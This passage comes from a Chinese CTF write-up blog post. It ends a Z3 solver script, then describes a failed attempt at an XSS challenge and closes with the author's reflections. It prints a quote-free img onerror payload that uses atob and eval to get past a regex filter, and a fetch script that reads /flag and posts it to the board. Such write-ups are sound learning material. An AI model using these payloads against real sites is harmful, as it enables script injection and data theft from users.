 ```python
constraints.append(((a[1] + a[2] * 345 - a[3]) + a[4] * 24 + a[5] * 856 - a[6] - a[7]) + a[8] * 1212 + a[0] + l * 33 == 182318)

# 创建求解器
solver = Solver()
solver.add(constraints)

# 检查是否有解，并打印结果
if solver.check() == sat:
    model = solver.model()
    solution = [model[a[i]].as_long() for i in range(9)]
    l_value = model[l].as_long()
    print("Solution:", solution, "l:", l_value)
else:
    print("No solution found")
```
{%endfolding%}

### ✂️ ⭕ Your Favorite XSS

只因为我在群里说了一句「为什么没有 XSS」，出题的佬特地给我加了一道题 ...

题目的正则表达式可以过滤掉绝大多数可能，但漏掉了不带引号的 event，可以轻松绕过。

```html
<p><img src="x" onerror=window[atob('ZXZhbA==')](atob('Base64编码的JS')) /></p>
```

根据出题人的提示，我编写了如下代码尝试运行：

```javascript
fetch('/flag', {
    mode: 'no-cors'
}).then(res => res.text()).then(flag => {
    fetch('/post', {
        mode: 'no-cors',
        method: 'POST',
        headers: {
            'content-type': 'application/x-www-form-urlencoded'
        },
        body: 'content=' + btoa(flag)
    })
})
```

在本地跑的时候可以正常往题目的留言板上发送出一条 `Unauthorized!`，但 XSS bot 似乎根本不理会这些脚本 ... 失败。

## 🤔 感想

这次是第一次正式参加 CTF 比赛，比起去年，一年后的我又进步了很多。

General 方面已经能基本拿下了，但提权方法之类的仍然需要多掌握，也要提升社工技巧。

去年的 Web 题只差一道 XSS 没做出来，因此一直对 XSS 有种特别的执念。结果，今年仍然没做出来 ... 已经在期待微积分计算小练习 3.0 了。另外，Web 题基本都在用 Docker 当作环境，因此在本地配一个 Docker 还是十分重要的。

今年头一次碰 Binary 题和 Pwn 题，掌握了一点点汇编和~~寄！~~存器的基本知识，随着之后的专业学习，对计算机的了解更深入，在这条赛道上我应该也会更加进步的吧。

还有 Math ... 一直以来都是我的弱点，都说学语言要有「语感」，学数学其实也有「数感」，不过我的「数感」显然是属于比较弱的那一档，因此只能通过努力来弥补「数感」的不足。微积分，概率论，离散数学，数论，图论，博弈论 ... 宇宙万法的那个源头是什么呢？数学。我真学了吗，如学（逃）

每年都在不断成长，一年一年累积起来，就是<font color="#3388BB">一辈子</font>！